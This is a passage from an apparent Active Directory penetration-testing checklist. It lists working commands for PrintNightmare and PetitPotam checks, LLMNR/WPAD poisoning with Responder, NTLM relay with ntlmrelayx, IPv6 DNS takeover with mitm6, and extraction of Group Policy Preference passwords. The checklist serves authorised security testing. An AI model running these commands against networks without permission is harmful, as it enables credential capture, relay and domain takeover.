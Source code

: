- [ ] Check for PrintNightmare vulnerability
  ```bash
  crackmapexec smb <target> -u 'user' -p 'password' -M printnightmare
  ```
  - *Why*: PrintNightmare (CVE-2021-34527) allows remote code execution
  - *What to look for*: Systems with Print Spooler service enabled

- [ ] Check for PetitPotam vulnerability
  ```bash
  crackmapexec smb <target> -u 'user' -p 'password' -M petitpotam
  ```
  - *Why*: PetitPotam can force authentication and lead to NTLM relay attacks
  - *What to look for*: Domain controllers vulnerable to MS-EFSRPC coercion

### Network Attack Vectors
- [ ] LLMNR/NBT-NS/mDNS Poisoning
  ```bash
  responder -I eth0 -wbF
  ```
  - *Why*: Windows systems broadcast name resolution requests when DNS fails
  - *What to look for*: Captured NetNTLM hashes from systems trying to resolve names

- [ ] NTLM Relay attack setup
  ```bash
  ntlmrelayx.py -t smb://<target> -smb2support
  ```
  - *Why*: Captured authentication attempts can be relayed to other services
  - *What to look for*: Services that don't require SMB signing, allowing credential relay

- [ ] WPAD attack
  ```bash
  responder -I eth0 -wFb
  ```
  - *Why*: Web Proxy Auto-Discovery can be poisoned to capture credentials
  - *What to look for*: Systems attempting to download proxy configurations

- [ ] IPv6 DNS Takeover
  ```bash
  mitm6 -d domain.local
  ntlmrelayx.py -6 -t ldaps://<DC_IP> -wh fakewpad.domain.local --delegate-access
  ```
  - *Why*: Windows prioritizes IPv6 over IPv4, allowing DNS poisoning
  - *What to look for*: Systems using DHCPv6 that can be redirected to attacker-controlled DNS

### Common Misconfigurations
- [ ] Check for Group Policy Preference passwords
  ```bash
  crackmapexec smb <target> -u 'user' -p 'password' -M gpp_password
  crackmapexec smb <target> -u 'user' -p 'password' -M gpp_autologin
  ```
  - *Why*: Older Group Policy Preferences stored encrypted credentials in SYSVOL
  - *What to look for*: XML files containing encrypted passwords that can be decrypted

## 5. Authenticated Enumeration

